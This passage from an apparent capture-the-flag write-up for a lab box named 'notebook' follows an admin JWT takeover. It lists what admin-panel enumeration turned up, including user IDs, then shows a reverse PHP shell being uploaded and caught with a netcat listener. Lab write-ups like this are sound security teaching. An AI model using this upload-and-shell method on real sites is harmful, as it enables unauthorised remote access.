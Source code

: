 ![Overwritten JWT and Admin access](/assets/images/writeups/notebook_overwriteadmin.png)

### Enumerating Admin Panel

Enumerating the admin panel I  identified the following things:
* Site allows PHP execution.
* Site has regular backups
* Valid users: noah (61c9fba6-7434-4edd-845b-0f5156ae6bf7), admin (83b34009-7124-498b-b355-2ea95c512eb8)
* Valid fullname: Nicholas Sparks (noah)
* Site allows file upload

### Reverse PHP Shell

Using the file upload function, I created, modified, and uploaded a reverse shell php and captured it using netcat:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php revshell.php
vim revshell.php
sudo nc -nlvp 443
```

![Uploading reverse php file](/assets/images/writeups/notebook_uploadphp.png)

![Netcat capturing reverse php call](/assets/images/writeups/notebook_phpshell.png)
